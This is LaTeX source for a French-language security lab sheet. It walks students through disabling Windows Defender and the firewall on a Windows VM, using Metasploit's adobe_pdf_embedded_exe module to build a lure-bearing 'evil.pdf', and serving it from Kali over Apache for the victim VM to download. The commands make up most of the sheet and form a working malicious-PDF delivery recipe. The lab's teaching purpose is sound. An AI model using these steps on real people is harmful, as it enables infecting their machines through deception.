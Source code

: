 \documentclass{article}
\newcommand{\tit}[1]{
\begin{center}
    \Large{\textbf{{#1}}}
\end{center}
}
\begin{document}
\tit{TP N\(^{\boldsymbol{\circ}}\)\hspace{0.1cm}1}

\vspace{0.5cm}

\begin{enumerate}
    \item Lancer les deux machines virtuelles kali linux et windows , et assure la connectiviter avec la commande \texttt{ping} .
\item Desactiver windows defender et le par-feu de la machine virtuelle windows , pourquoi les desactiver ? 
\item Installer adobe reader 9.2 sur la machine virtuelle windows
\item On va utilier metasploit dans kali linux taper les commandes suivant :
\begin{itemize}
    \item \texttt{msfconsole} pour lancer l'interface de commande principale de Metasploit.
    \item \texttt{use exploit/windows/fileformat/adobe\_pdf\_embedded\_exe} pour sélectionner l'exploit qui permet d'intégrer un exécutable malveillant dans un fichier PDF.
    \item \texttt{show options} pour afficher tous les paramètres configurables de l'exploit sélectionné.
    \item \texttt{set LAUNCH\_MESSAGE <message pour inciter la victime à ouvrir le fichier pdf>} pour définir le message qui apparaîtra à l'ouverture du PDF afin d'inciter l'utilisateur à exécuter le code malveillant.
    \item \texttt{exploit} pour lancer la création du fichier malveillant , comment s'appelle-t-il "evil.pdf".
\end{itemize}

\item On souhaite transférer ce fichier malveillant sur la machine de la victime. Comment procéder ? Nous allons utiliser Apache pour accomplir cela. Ouvrez un terminal en tant que root sur Kali et exécutez les commandes suivantes :
    \begin{itemize}
        \item \texttt{service apache2 start} pour démarre le serveur Apache
        \item \texttt{cp <chemin/evil.pdf> /var/www/html} : que fait cette commande ? 
        \item \texttt{ls /var/www/html} : vous devriez voir le fichier \texttt{evil.pdf} listé dans ce répertoire.
    \end{itemize}
    \begin{itemize}
        \item Depuis la machine Windows, ouvrez un navigateur et saisissez l'URL suivante : \texttt{IP\_KALI/evil.pdf} afin de télécharger et installer le fichier \texttt{evil.pdf}.
    \end{itemize}


\end{enumerate}
\end{document}
